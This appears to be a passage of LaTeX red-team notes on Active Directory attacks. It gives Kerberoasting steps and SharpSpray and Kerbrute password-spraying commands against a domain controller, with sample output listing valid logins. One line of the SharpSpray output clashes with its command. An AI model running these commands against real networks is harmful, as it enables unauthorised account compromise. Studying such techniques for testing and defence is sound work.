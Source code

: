 \paragraph{Example attack paths}
\texttt{[image: attack-path.png]}\\
\texttt{[image: attack-path-2.png]}


\subsubsection{Kerberoasting}
Get service ticket for user/service with SPN set and crack its password\\
\texttt{[image: kerberos.png]}
\begin{enumerate}
    \item Find a user/service account (rather than a machine account) with a service principal name (SPN) set
    \item Request a service ticket with RC4\_HMAC\_MD5 encryption and extract a hash from it
    \item Attempt to crack the user’s password using hashcat or John the Ripper
\end{enumerate}
\texttt{[image: kerberos\_tgt.png]}


\subsubsection{SharpSpray}
\begin{lstlisting}
  SharpSpray.exe --Passwords Winter2020 --Sleep 15 --Delay 300

  [+] Successfully collected 42 usernames from Active Directory.
  [*] The Lockout Threshold for the current domain is 10.
  [*] The Min Password Length for the current domain is 10.
  [+] Successfully generated a list of 1 passwords.
  [*] Starting password spraying operations.
  [*] Using a delay of 300 milliseonds between attempts.
  [*] Using password ItsNotWinter!
  [+] Successfully authenticated with asmith::Winter2020
  [*] Completed all rounds with password Winter2020
  [*] Now the script will sleep for 15 minutes
\end{lstlisting}

\subsubsection{Kerbrute}
\begin{lstlisting}
  #If run from a non-domain-joined machine, you have to specify the DC
  ./kerbrute_linux_amd64 passwordspray --dc 10.0.0.1 -d corp.local domain_users.txt Winter2020

  2019/03/06 21:37:29 > Using KDC(s):
  2019/03/06 21:37:29 > 10.0.0.1:88
  2019/03/06 21:37:35 > [+] VALID LOGIN: asmith@corp.local:Winter2020
  2019/03/06 21:37:37 > [+] VALID LOGIN: tanderson@corp.local:Winter2020
  2019/03/06 21:37:37 > Done! Tested 2755 logins (2 successes) in 7.674 seconds
\end{lstlisting}


